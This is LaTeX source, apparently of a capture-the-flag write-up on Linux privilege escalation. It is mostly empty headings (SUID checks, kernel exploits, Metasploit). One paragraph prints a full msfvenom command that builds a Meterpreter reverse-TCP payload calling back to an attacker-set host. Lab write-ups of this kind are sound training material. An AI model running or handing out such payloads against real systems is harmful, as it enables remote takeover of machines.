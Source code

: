 \documentclass[a4paper]{article}
\newcommand{\abc}{\hfill \break}
\begin{document}
\subsubsection{smart enumeration}
\subsubsection{trying a kernel level exploit}
\subsubsection{checking suid binarys}
\subsubsection{checking root proccses}
\subsubsection{Trying to get privileges using Metasploit and Meterpreter}
Lastly, we tried to use Meterpreter and its prebuilt privilege escalation modules.\abc
To do this, we had to generate a payload first. While we could have just used a Netcat shell and upgraded to Meterpreter, we took this opportunity to learn something new. The payload was generated with the following command: \texttt{msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=[IP] LPORT=4444 -f elf -o payload.bin}, which is also broken down below.
\subsubsection{trying other common ctf priv escalation ways}
\subsection{reseting the root password and exploring the vm}
\subsection{7 flags}

\newpage
\section{References}

\newpage
\section{List of figures}

\listoffigures
\end{document}
